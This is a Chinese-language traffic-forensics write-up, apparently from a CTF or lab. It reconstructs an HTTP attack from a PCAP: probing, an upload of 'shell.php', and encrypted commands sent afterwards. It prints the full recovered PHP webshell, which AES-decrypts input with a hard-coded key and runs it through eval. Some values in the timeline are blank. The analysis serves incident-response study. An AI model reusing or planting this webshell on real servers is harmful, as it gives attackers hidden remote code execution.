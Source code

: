 读取 PCAP 头后确认：经典 PCAP 2.4、小端序、Ethernet 链路类型、snaplen 65,535。逐条解析记录得到 \textbf{147 个包，全部为 TCP}。所有有效会话集中在 \texttt{172.28.0.20} 与 \texttt{172.28.0.10:80} 之间，HTTP Host 为 \texttt{}，未看到 TLS。

这一结果说明重点应放在重组 TCP 会话并检查 HTTP 请求/响应，而不是寻找 DNS、附件或加密隧道。

时间戳依据 PCAP 与 HTTP Date 字段。客户端是 \texttt{172.28.0.20}，Web 服务器是 \texttt{172.28.0.10:80}。

\begin{itemize}
\tightlist
\item
  \textbf{时间（服务器 HTTP Date）:} 02:25:25、02:25:27；\textbf{流量 / 观察:} \texttt{GET\ /index.php}，均返回 200；\textbf{判断:} 正常页面访问/探测
\item
  \textbf{时间（服务器 HTTP Date）:} 02:25:28；\textbf{流量 / 观察:} \texttt{GET\ /uploads/} 返回 403；\textbf{判断:} 目录浏览被禁止；但不能据此认为目录不可写或其中脚本不可访问
\item
  \textbf{时间（服务器 HTTP Date）:} 02:25:31；\textbf{流量 / 观察:} \texttt{}，multipart 文件名 \texttt{shell.php}，类型 \texttt{}；\textbf{判断:} 上传了 PHP 文件，是关键异常行为
\item
  \textbf{时间（服务器 HTTP Date）:} 02:25:33、02:25:34；\textbf{流量 / 观察:} \texttt{GET\ /} 与 \texttt{GET\ /index.php}；\textbf{判断:} 上传后页面访问
\item
  \textbf{时间（服务器 HTTP Date）:} 02:25:36 起；\textbf{流量 / 观察:} 多次 \texttt{}，客户端为 Java 1.8.0\_301；\textbf{判断:} 访问已上传的 PHP 脚本并发送加密命令
\end{itemize}

TCP 重组后，上传请求体包含如下 PHP 逻辑（去掉了 multipart 分隔符）：

\begin{verbatim}
@error_reporting(0);
session_start();
$key = "3f9a7c2e1d8b6045";
$_SESSION['k'] = $key;
$post = file_get_contents("php://input");
if (!extension_loaded('openssl')) {
    $t = "base64_" . "decode";
    $post = $t($post . "");
    for ($i=0; $i<strlen($post); $i++) {
        $post[$i] = $post[$i] ^ $key[$i+1&15];
    }
} else {
    $post = openssl_decrypt($post, "AES128", $key);
}
$arr = explode('|', $post);
$func = $arr[0];
$params = $arr[1];
class C {
    public function __construct($k) { $this->k = $k; }
    public function __invoke($p) {
        ob_start();
        eval($p);
        $r = ob_get_clean();
        echo openssl_encrypt(base64_encode($r), "AES128", $this->k);
    }
}
@call_user_func(new C($key), $params);
\end{verbatim}

